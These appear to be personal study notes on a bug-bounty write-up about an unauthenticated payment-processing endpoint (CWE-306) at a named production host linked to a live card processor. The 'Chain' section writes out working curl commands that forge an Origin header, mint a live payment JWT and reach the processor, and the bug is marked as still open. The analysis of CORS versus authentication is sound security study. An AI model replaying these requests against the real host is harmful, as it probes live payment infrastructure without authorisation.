

# Case Study — Unauthenticated Payment Processing Endpoint (CWE-306, CVSS 8.5)

> **Original write-up:** [Medium — jimmy: Bypassing Access Controls: How I Found an Unauthenticated Payment Processing Endpoint (CVSS 8.5)](https://medium.com/@mgsa112233/bypassing-access-controls-how-i-found-an-unauthenticated-payment-processing-endpoint-cvss-8-5-02d972bcd57c)
> **Target:** `payments.itlp.c1.vanguard.com` — production payment microservice → live Cybersource processor
> **The one principle:** a *critical function reachable without server-side authentication is the bug* — `Origin` / CORS is a browser mechanism, not identity. [[03-Web-Vulnerabilities/temp.md]] (trust boundary / two components interpreting the same data differently)

---

## TL;DR

Three unauthenticated `curl` calls, zero login:

1. `GET /v3/api-docs` — public OpenAPI docs = full map of payment endpoints (`/microforms/session`, `/microforms/process-payment`), products (`ISA`, `JISA`, `GA`, `SIPP`), `vgNumber` formats, 3DS flows.
2. `POST /api/v1/microforms/session` with `{"amount":"10.00","currency":"GBP","product":"ISA"}` + forged `Origin` — returns a **live, signed RS256 `captureContext` JWT** (merchant JWK + `VISA/MASTERCARD/MAESTRO`).
3. `POST /api/v1/microforms/process-payment` with a fake `transientToken` — returns **real Cybersource transaction IDs** (e.g. `7892376939806836504896`), proving live processor reachability.

Classes: **CWE-306 Missing Authentication for Critical Function + CWE-200 Exposure of Sensitive Information**. CVSS 3.1 **8.5 High** (`AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:N`). Status: Triaged / Open. No real card, no charge, no PII touched — stopped at transaction-ID proof.

---

## The Chain (foundation → application)

### 0) Target shape

```text
User
  ↓
Vanguard Frontend
  ↓
Vanguard Payment Backend / API
  ↓
Cybersource
  ↓
Payment Processing
```

> The Payment Backend is the middleman. The finding = unknown Internet user reaches its sensitive parts directly.

### 1) Public API docs = attack-surface map

```bash
curl -sS 'https://payments.itlp.c1.vanguard.com/v3/api-docs'
```

Revealed:

```text
/api/v1/microforms/session
/api/v1/microforms/process-payment
ISA / JISA / GA / SIPP
VG number formats
3DS / payment flows
```

> **Foundation:** [[04-Recon/Discovering Hidden Content/Methodology.md|Discovering Hidden Content]] + [[07-CheatSheets/Recon.md#JavaScript Enumeration|JS Enumeration]]. Same pattern as [[09-Writeups & Reports/Django Debug Mode to PII Leak (500+ Employees)|Django Debug → PII]] — docs (`/v3/api-docs`, `/swagger`, `/openapi.json`) are the map, not the bug. Value: turns `What endpoints exist?` into `These are the endpoints, parameters, flows` → test their auth.

### 2) Mint a live payment context — no login

```bash
curl -sS \
  -H 'Content-Type: application/json' \
  -H 'Origin: https://payments.itlp.c1.vanguard.com' \
  -d '{"amount":"10.00","currency":"GBP","product":"ISA"}' \
  'https://payments.itlp.c1.vanguard.com/api/v1/microforms/session'
```

Response: live signed RS256 `captureContext` JWT (merchant JWK + allowed networks).

> Note what is missing: no `username`, `password`, `Authorization` header, `user ID`, investor account. → [[03-Web-Vulnerabilities/Access control vulnerabilities/Basic Concepts/Access Control Types.md|Access Control Types]] (vertical: unauthenticated → critical function).

### 3) Reach the live processor

```bash
curl -sS \
  -H 'Content-Type: application/json' \
  -d '{
    "transientToken": "not-a-real-token",
    "amount": "1.00",
    "currency": "GBP",
    "referenceNumber": "H1-RESEARCH-NO-CHARGE",
    "product": "ISA",
    "vgNumber": "VG000000-001",
    "paymentRouteType": "Single Payment"
  }' \
  'https://payments.itlp.c1.vanguard.com/api/v1/microforms/process-payment'
```

Response: real transaction IDs → request actually hit **live Cybersource**, not a mock.

> **Foundation:** [[03-Web-Vulnerabilities/Methodology/Access Control Testing Methodology.md|Access Control Testing Methodology]] Phase 3 — call the backend directly, strip auth, supply only client-controlled headers (`Origin`).

---

## Scenario Diagram



---

## Deep Dive — Understanding the Flow & Impact

> This section is the detailed Q&A breakdown — kept verbatim as studied.

### 1. The Big Picture

The **Payment Backend** acts as the middleman between the website and the external payment processor, **Cybersource**. The researcher discovered that an unauthenticated person on the Internet could reach sensitive parts of this payment backend.

### 2. First Step — Discovering the API

```http
GET /v3/api-docs
```

The API documentation did not automatically mean there was a vulnerability. Its value was that it gave the researcher a **map of the payment attack surface**. So the investigation became:

```text
API Documentation
       ↓
Discover sensitive endpoints
       ↓
Test their authentication and authorization
```

### 3. What Is a Payment Session?

A **payment session is NOT the same thing as a login session**.

```text
Login Session = identity/authentication context
Payment Session = payment-flow context
```

Conceptually:

```text
Start Payment
     ↓
Create Payment Session
     ↓
Create Payment Context
     ↓
Continue Payment Flow
     ↓
Process Payment
```

Do not assume every "session" in an application identifies a user.

### 4. What Did `/microforms/session` Actually Do?

```http
POST /api/v1/microforms/session
```

```json
{
  "amount": "10.00",
  "currency": "GBP",
  "product": "ISA"
}
```

Notice what is missing:

```text
username
password
Authorization header
user ID
investor account
```

Yet the server returned a `captureContext JWT`. It does NOT mean `£10 was taken from somebody`. It means the server created a **payment-related context** — like `Create Order → Order #123 created`, not charging the card.

### 5. Why Was the Payment Session Interesting?

```text
Unauthenticated user
        ↓
POST /microforms/session
        ↓
Server
        ↓
Payment-related context
```

Question: *Why can an unknown Internet user start a payment flow and receive payment-related context without authenticating?* But alone this is **not the final proof** — some apps legitimately allow checkout before login:

```text
Unauthenticated payment session ≠ automatically a vulnerability
```

### 6. Following the Payment Flow

```http
POST /api/v1/microforms/process-payment
```

```text
/microforms/session → Prepare payment flow
/microforms/process-payment → Process the payment
```

```text
Start → Create Payment Session → Payment Context → Process Payment → Cybersource
```

This is where the finding became much more serious.

### 7. Where Was the Actual Security Problem?

> Who is allowed to call `/process-payment`?

Secure design:

```text
Request → Are you authenticated? → Who are you? → Authorized? → Payment valid? → Process
```

Actual:

```text
Sensitive Function → Is the Origin correct? → YES → Allow
```

### 8. Why Is `Origin` Not Authentication?

`Origin` is an HTTP header. A non-browser client (`curl`, Burp, Python) can send any value:

```http
Origin: https://payments.itlp.c1.vanguard.com
```

Therefore:

```text
Origin == trusted website ≠ This is an authenticated Vanguard user.
```

### 9. CORS ≠ Authentication

CORS is a **browser security mechanism** (can browser JS read a cross-origin response?). Authentication answers *Who are you?* Completely different:

```text
CORS protection ≠ Authentication
```

### 10. How Did the Researcher Prove Live Processor Reachability?

A plain `200 OK` or `{"error":"invalid payment"}` would not be enough. The `/process-payment` call returned **real transaction IDs**, proving:

```text
Researcher → Vanguard Payment API → Cybersource → Transaction ID
```

### 11. Did the Researcher Actually Steal or Move Money?

No. NOT demonstrated:

```text
❌ Buying a product for free
❌ Taking money from another user's account
❌ Sending money to the attacker's account
❌ Successfully charging a real card
❌ Stealing card details
```

Fake token `"not-a-real-token"` used, stopped after processor reachability. Proved `unauthenticated access → critical endpoint → live infra`, not a completed fraudulent transaction.

### 12. So What Was the Actual Impact?

1. Unauthenticated access to sensitive payment functionality.
2. `captureContext` JWT generatable without auth.
3. Payment-processing request reached Cybersource (real transaction IDs).
4. Internal payment architecture exposed (products, params, routing).

### 13. What Was NOT Proven?

```text
Unauthenticated user → Successfully charges victim's card ❌
Unauthenticated user → Gets a free product ❌
Unauthenticated user → Transfers money to themselves ❌
```

Proof stopped at `Attacker → API → process-payment → Cybersource → Transaction ID`.

### 14. Why Is This Still a Vulnerability?

The security boundary itself was broken — critical function reachable by unknown user without proper authentication.

### 15. Difference From IDOR / BOLA

IDOR (authenticated):

```text
User A → GET /invoice/123 → change ID → GET /invoice/124 → User B's object
Problem = object-level authorization missing
```

This case (unauthenticated):

```text
Unknown attacker → POST /process-payment → no proper authentication → critical function
Problem = authentication missing for critical function
```

→ Closer to **CWE-306** than classic IDOR.

### 16. The Complete Investigation

```text
Target → Public API Docs → Discover endpoints → /microforms/session
→ call unauthenticated → Payment Context → follow flow
→ /microforms/process-payment → test auth → Origin/CORS trusted
→ curl + Origin → accepted → reaches Cybersource → Transaction ID → Stop
```

### 17. The Main Lessons

1. **Payment Session ≠ Login Session.**
2. **Follow the entire business flow** — don't stop at `/session`; ask what consumes the token and what performs the sensitive action.
3. **CORS is not Authentication.**
4. **Test server-side enforcement** — not `does frontend show the button?` but `will backend perform it on direct API call?`
5. **HTTP 200 is not proof** — determine actual server-side effect.
6. **Separate demonstrated vs theoretical impact** — PROVED: unauth reach to live payment infra. NOT PROVED: successful fraudulent charge.

---

## Final Mental Model

```text
Endpoint → What does it do? → Who should use it? → Requires auth?
→ Server verifies authz? → Can I call it directly? → Actual side effect?
```

For this report:

```text
What does it do? → Process payments
Who should be allowed? → Authenticated/authorized users
Does server verify identity? → NO
Can unauthenticated client reach it? → YES
Reaches real processor? → YES
Real fraudulent payment demonstrated? → NO
```

**That is the vulnerability.**

---

## Concept Mapping

- **Vulnerability class:** CWE-306 Missing Authentication for Critical Function (+ CWE-200 info exposure via public docs).
  → [[03-Web-Vulnerabilities/Access control vulnerabilities/Basic Concepts/Access Control Types.md|Access Control Types]] (vertical) + [[03-Web-Vulnerabilities/Access control vulnerabilities/IDOR (Insecure Direct Object Reference).md|IDOR]] (contrast: here unauthenticated, not cross-object).
- **Root cause:** `Origin` trusted as authz gate; no `session == investor?` / `can_process(payment)?` check on `/process-payment`.
  → [[03-Web-Vulnerabilities/Methodology/Access Control Testing Methodology.md|Access Control Testing Methodology]] + [[03-Web-Vulnerabilities/temp.md]].
- **Recon pattern:** public docs as map (`/v3/api-docs`).
  → [[04-Recon/Discovering Hidden Content/Methodology.md|Discovering Hidden Content]] + [[07-CheatSheets/Recon.md]] + sibling [[09-Writeups & Reports/Django Debug Mode to PII Leak (500+ Employees)|Django Debug → PII]].
- **Business-flow pattern:** multi-step payment flow (session → process) where step 2 lacks checks.
  → [[03-Web-Vulnerabilities/Multi-Step Processes.md|Multi-Step Processes]] + [[03-Web-Vulnerabilities/Methodology/Multi-step WorkFlow.md|Multi-step WorkFlow]].
- **Sibling pattern:** same AuthN-vs-AuthZ confusion as [[09-Writeups & Reports/API Misconfiguration - PII Leak (100k users)|API Misconfig 100k]] and [[09-Writeups & Reports/Plan Restriction Bypass - Free Tier to Paid Features|Plan Restriction Bypass]] — frontend hides / browser restricts, backend never enforces.

---

## Q&A (my questions to understand the report)

#### Q1 — Is a payment session the same as a login session?
No. Login session = `who is the user?` (cookie/JWT identity). Payment session = `payment-flow context` (prepare context → continue flow → process). Every "session" is not identity.

#### Q2 — Does getting a `captureContext` mean money moved?
No. Like creating an order vs charging a card. It creates payment context; the sensitive action is `/process-payment`.

#### Q3 — Why isn't an unauthenticated `/session` alone enough for a report?
Some checkouts legitimately start pre-login. Must follow the flow to the state-changing endpoint (`/process-payment`) and test its auth.

#### Q4 — Why does `Origin: ...` + curl bypass the protection?
`Origin` is client-controlled. Browsers enforce CORS; `curl`/Burp/Python send any header. `Correct Origin = allowed` is not `authenticated user = allowed`.

#### Q5 — What proved live-processor impact vs just "endpoint exists"?
Real Cybersource transaction IDs in the response — not just `200 OK`. HTTP 200 alone is never impact proof.

#### Q6 — IDOR or CWE-306?
CWE-306. Classic IDOR = authenticated user swaps object ID (horizontal). Here = unauthenticated user reaches critical function (missing authN).

#### Q7 — What was explicitly NOT shown?
No free purchase, no victim charge, no payout to attacker, no PAN/CVV use. Researcher used `"not-a-real-token"` + `H1-RESEARCH-NO-CHARGE` and stopped.

---

## New Techniques

> Skills in this write-up the repo doesn't document explicitly yet.

1. **`/v3/api-docs` as first payment probe** — unauthenticated `GET /v3/api-docs /swagger /openapi.json` on payment/API subdomains; grep products, `vgNumber`, `process-payment`, 3DS hints.
2. **Payment-flow chaining (session → process)** — don't report step 1; find what consumes its output and test step 2's auth independently.
3. **`Origin`-only gate test** — replay sensitive POST with attacker session + forged `Origin` via curl; `200 + side effect` = CORS-as-authz flaw.
4. **Transaction-ID as liveness oracle** — payment `200 OK` means nothing; a processor-issued ID (Cybersource/Stripe `pi_`) proves live-infra reach.
5. **`captureContext`/transient-token vocabulary** — Cybersource Microforms: JWT context → card → `transientToken` → charge. Knowing the vocabulary maps the flow without docs.
6. **`referenceNumber: H1-RESEARCH-NO-CHARGE` pattern** — clearly-marked, non-charge research reference + fake token + immediate stop = ethical PoC for payment endpoints.
7. **Proved-vs-possible separation in severity** — write impact as `proved: unauth → live processor` + `possible: ...` (uncharged). Prevents overstating and survives triage.

---

## Key Takeaways

1. **CORS ≠ auth.** Any backend gating on `Origin`/`Referer` alone is bypassable by non-browser clients.
2. **Docs are the map.** Public OpenAPI on a payment host = enumerate first, then auth-test every state-changing route.
3. **Follow the money flow.** The minting endpoint (`/session`) is recon; the redeeming endpoint (`/process-payment`) is the finding — same issuing-vs-consuming split as Gmail attachments / S3 job IDs.
4. **Payment session ≠ login.** Don't confuse flow context with identity.
5. **Prove side effects.** Transaction IDs, not status codes, are the proof.
6. **Ethics is part of the PoC.** Fake token, no PAN/CVV, no charge, no PII, stop at liveness proof.

---

## References

- [Bypassing Access Controls: Unauthenticated Payment Processing Endpoint (CVSS 8.5) — jimmy (Medium)](https://medium.com/@mgsa112233/bypassing-access-controls-how-i-found-an-unauthenticated-payment-processing-endpoint-cvss-8-5-02d972bcd57c)
- Sibling cases: [[09-Writeups & Reports/Django Debug Mode to PII Leak (500+ Employees)]] + [[09-Writeups & Reports/API Misconfiguration - PII Leak (100k users)]] + [[09-Writeups & Reports/Gmail API Attachment IDOR - Missing Object-Level Authorization]]
- Summary row + Q&A: [[09-Writeups & Reports/Reports Summary Table]]
- Core principle: [[03-Web-Vulnerabilities/temp.md]]
